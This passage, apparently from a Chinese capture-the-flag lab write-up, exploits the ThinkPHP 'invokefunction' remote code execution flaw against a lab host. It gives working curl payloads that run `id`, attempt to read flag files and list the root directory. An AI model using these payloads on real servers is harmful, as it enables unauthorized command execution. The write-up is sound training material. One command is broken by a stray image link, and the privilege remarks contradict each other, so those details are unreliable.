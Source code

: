   ```bash
  curl 'http://10.37.133.3:39365/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=system&vars%5B1%5D%5B%5D=id'
  ```

  如图,响应中包含类似 `uid=0(root) gid=0(root) groups=0(root)` 的输出，表示命令成功执行
  ![1748020916102](image/第一层两靶标攻击与利用检测/1748020916102.png)
* **Payload 3: 获取 Flag**
  假设 flag 文件位于 `/flag.txt` 或 `/flag`。
  构造 URL (已进行方括号编码) 尝试读取 `/flag.txt`：
  `http://10.37.133.3:39365/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=system&vars%5B1%5D%5B%5D=cat%20/flag.txt`
  或者尝试读取 `/flag`：
  `http://10.37.133.3:39365/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=system&vars%5B1%5D%5B%5D=cat%20/flag`
  使用 `curl` 获取：

  ```bash
  # 尝试读取 /flag.txt
  curl 'http://10.37.133.3:39365/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=system&vars%5B1%5D%5B%5D=cat%20/flag.txt'
  # 或者尝试读取 /flag
  curl 'http://10.37.133.3:![1748067441252](image/第一层两靶标攻击与利用检测/1748067441252.png)39365/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=system&vars%5B1%5D%5B%5D=cat%20/flag'
  ```

  ![1748021243075](image/第一层两靶标攻击与利用检测/1748021243075.png)

  尝试 cat /flag.txt 和 cat /flag 都没有返回任何输出，这意味着 flag 文件可能不在这些预期的路径下，或者文件名不同，或者我们执行命令的用户（通过 id 命令可以看到，通常是 www-data 或类似权限较低的用户）没有权限读取这些文件。

1. 尝试列出根目录文件和目录：

```bash
    curl 'http://10.37.133.3:39365/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=system&vars%5B1%5D%5B%5D=ls%20-la%20/'
```
